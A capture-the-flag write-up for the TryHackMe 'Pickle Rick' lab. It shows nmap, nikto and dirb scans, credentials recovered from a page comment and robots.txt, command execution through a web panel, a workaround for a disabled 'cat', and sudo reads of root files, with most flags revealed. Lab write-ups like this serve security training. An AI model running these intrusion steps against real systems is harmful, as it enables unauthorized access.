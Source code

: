 # Pickle Rick @TryHackMe.com

Difficulty: EASY

Keywords and tools: nmap, nikto, dirb, directory traversal


### ping the target (target IP will be given after you've joined the room)

```
ping 10.10.102.120

PING 10.10.102.120 (10.10.102.120) 56(84) bytes of data.
64 bytes from 10.10.102.120: icmp_seq=1 ttl=63 time=49.4 ms
64 bytes from 10.10.102.120: icmp_seq=2 ttl=63 time=50.7 ms
```

### nmap scan

````
sudo nmap -sV -n -v -Pn -p- -T4 -A 10.10.102.120

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9a:68:bd:7f:44:89:05:be:36:ef:62:91:91:3c:8b:f3 (RSA)
|   256 f3:57:4b:4d:59:dd:42:6e:01:d9:b6:7e:8b:d5:72:8b (ECDSA)
|_  256 3a:9e:61:c3:73:1a:f0:4c:de:a3:39:79:d5:b5:f3:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
````

### Connect to web app with Firefox (http:\\10.10.102.120) and inspect the page source 

You should find
````
<!--

    Note to self, remember username!

    Username: R1ckRul3s

-->
````

### Check /robots.txt

Found a password?
```
Wubbalubbadubdub
```

### Let's try ssh.

````
ssh R1ckRul3s@10.10.102.120

R1ckRul3s@10.10.102.120: Permission denied (publickey).
````

No success. Will need ssh key.
  
  

### Scan the target for possibly hidden content with dirb

````
dirb http://10.10.102.120/

````
Won't find anything special...

### Lets try nikto

````
nikto -h 10.10.102.120
````

nikto found an /login.php page, lets see it and try to login

````
Open Firefox and go to <target>/login.php
username: R1ckRul3s
password: Wubbalubbadubdub
````

We get a command panel with a command execution box, lets try typing 'whoami'

````
www-data
ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

cat Sup3rS3cretPickl3Ingred.txt
Command disabled
````

Open the page with Firefox: http://10.10.102.120/Sup3rS3cretPickl3Ingred.txt and we have our first flag

``mr. meeseek hair``

Open the http://10.10.102.120/clue.txt ``Look around the file system for the other ingredient.``

### Lets try directory traversal
````
cd ../../../../; ls
cd /home; ls
cd /home/rick; ls
````
We see 'second ingredients', and since cat-command is disabled, lets try 'less'

````
less /home/rick/"second ingredients"
jerry tear
````
And we got our second flag.

Lets see if we have sudo

````
sudo ls /root;
sudo less /root/3rd.txt

3rd ingredients: ***** ****
````

There's the final flag.
